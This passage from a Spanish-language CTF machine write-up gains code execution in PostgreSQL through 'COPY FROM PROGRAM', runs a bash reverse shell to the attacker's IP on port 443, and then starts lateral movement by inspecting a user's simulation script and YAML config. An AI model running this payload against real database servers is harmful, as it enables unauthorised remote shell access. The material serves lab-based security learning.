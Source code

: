 Parace ser el hash de una contraseña, que no podemos crackear, y si mostramos los datos de ```pg_user_mapping``` no saldra nada, asi que es posible que debamos de hacer otra cosa, intentaremos realizar un RCE para mandarnos una reverse shell, guiandonos de [aqui](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution) usaremos este consulta para conseguir RCE:

```sql
CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/<tu ip>/443 0>&1\"';
```
- Con ```CREATE TABLE cmd_exec(cmd_output text)``` le estamos diciendo que cree una tabla llamada ```cmd_exec``` en la cual tendra una columna llamada ```cmd_output``` de tipo ```text```, la cual tendra el resultado del comando ejecutado

- Despues con ```COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/<tu ip>/443 0>&1\"'``` le estamos diciendo que copie datos a la tabla ```cmd_exec``` ademas de que con ```PROGRAM``` estamos haciendo el llamado de un programa externo el cual es ```bash``` y ejecutara la reverse shell

Y ya conseguimos una reverse shell

## Movimiento lateral de postgres a Juno

Empezaremos analizando los procesos que esten ejecutandose en la maquina, asi que ejecutare pspy y encontraremos que se esta ejecutando un script desde el usuario Juno

```bash
CMD: UID=1000  PID=21104  | /bin/bash /home/juno/shadow-simulation.sh
```

Ademas tambien veremos que esta copiando el archivo ```network-simulation.yml``` a ```/dev/shm```

```bash
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
```

Si vemos el contenido del archivo tenemos esto:

```yaml
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```